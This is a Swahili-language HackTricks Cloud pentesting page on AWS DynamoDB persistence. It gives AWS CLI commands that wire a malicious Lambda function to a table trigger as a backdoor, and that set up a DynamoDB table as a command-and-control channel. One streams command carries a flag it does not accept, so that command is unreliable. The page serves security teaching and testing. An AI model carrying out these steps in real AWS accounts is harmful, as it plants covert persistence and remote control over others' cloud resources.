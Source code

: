 # AWS - Uhifadhi wa DynamoDB

<details>

<summary><strong>Jifunze kuhusu udukuzi wa AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu zako za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

### DynamoDB

Kwa habari zaidi tembelea:

{% content-ref url="../aws-services/aws-databases/aws-dynamodb-enum.md" %}
[aws-dynamodb-enum.md](../aws-services/aws-databases/aws-dynamodb-enum.md)
{% endcontent-ref %}

### Vitanzi vya DynamoDB na Nyuma ya Lambda

Kwa kutumia vitanzi vya DynamoDB, mkaidi anaweza kuunda **nyuma ya mlango wa siri** kwa kuunganisha kazi ya Lambda yenye nia mbaya na meza. Kazi ya Lambda inaweza kuzinduliwa wakati kipengee kinapoongezwa, kimebadilishwa, au kimefutwa, kuruhusu mkaidi kutekeleza nambari ya kupendelea ndani ya akaunti ya AWS.

{% code overflow="wrap" %}
```bash
# Create a malicious Lambda function
aws lambda create-function \
--function-name MaliciousFunction \
--runtime nodejs14.x \
--role <LAMBDA_ROLE_ARN> \
--handler index.handler \
--zip-file fileb://malicious_function.zip \
--region <region>

# Associate the Lambda function with the DynamoDB table as a trigger
aws dynamodbstreams describe-stream \
--table-name TargetTable \
--region <region>

# Note the "StreamArn" from the output
aws lambda create-event-source-mapping \
--function-name MaliciousFunction \
--event-source <STREAM_ARN> \
--region <region>
```
{% endcode %}

Kudumisha uthabiti, mshambuliaji anaweza kuunda au kuhariri vitu katika meza ya DynamoDB, ambayo itaanzisha kazi ya Lambda yenye nia mbaya. Hii inamruhusu mshambuliaji kutekeleza nambari ndani ya akaunti ya AWS bila mwingiliano moja kwa moja na kazi ya Lambda.

### DynamoDB kama Kituo cha Udhibiti na Amri (C2)

Mshambuliaji anaweza kutumia meza ya DynamoDB kama **kituo cha udhibiti na amri (C2)** kwa kuunda vitu vinavyoleta amri na kutumia mifano iliyoharibiwa au kazi za Lambda kuchukua na kutekeleza amri hizi.
```bash
# Create a DynamoDB table for C2
aws dynamodb create-table \
--table-name C2Table \
--attribute-definitions AttributeName=CommandId,AttributeType=S \
--key-schema AttributeName=CommandId,KeyType=HASH \
--provisioned-throughput ReadCapacityUnits=5,WriteCapacityUnits=5 \
--region <region>

# Insert a command into the table
aws dynamodb put-item \
--table-name C2Table \
--item '{"CommandId": {"S": "cmd1"}, "Command": {"S": "malicious_command"}}' \
--region <region>
```
Instances au Lambda zilizoharibiwa zinaweza kwa kipindi kuchunguza meza ya C2 kwa amri mpya, kuzitekeleza, na hiari kuripoti matokeo kwenye meza. Hii inamruhusu muhusika kuweka uthabiti na udhibiti juu ya rasilimali zilizoharibiwa.
